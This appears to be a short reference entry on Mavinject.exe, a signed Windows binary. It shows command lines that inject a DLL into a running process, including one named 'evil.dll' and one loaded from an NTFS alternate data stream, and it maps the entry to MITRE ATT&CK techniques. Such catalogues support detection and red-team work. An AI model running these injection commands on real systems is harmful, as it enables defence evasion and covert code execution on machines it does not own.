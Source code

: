 ## Mavinject.exe

* Functions: Execute, Read ADS

```
MavInject.exe <PID> /INJECTRUNNING <PATH DLL>

MavInject.exe 3110 /INJECTRUNNING c:\folder\evil.dll     
   
mavinject.exe 4172 /INJECTRUNNING "c:\ads\file.txt:file.dll"
```

Acknowledgements:
* Giuseppe N3mes1s - @gN3mes1s
* Adam - @hexacorn
* Oddvar Moe - @oddvarmoe
   
Code sample:
* 

Resources:
* https://twitter.com/gN3mes1s/status/941315826107510784     
* https://twitter.com/Hexcorn/status/776122138063409152     
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/


Full path:
```
C:\Windows\System32\mavinject.exe
C:\Windows\SysWOW64\mavinject.exe
```

Notes:



 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Signed Binary Proxy Execution](https://attack.mitre.org/wiki/Technique/T1218)
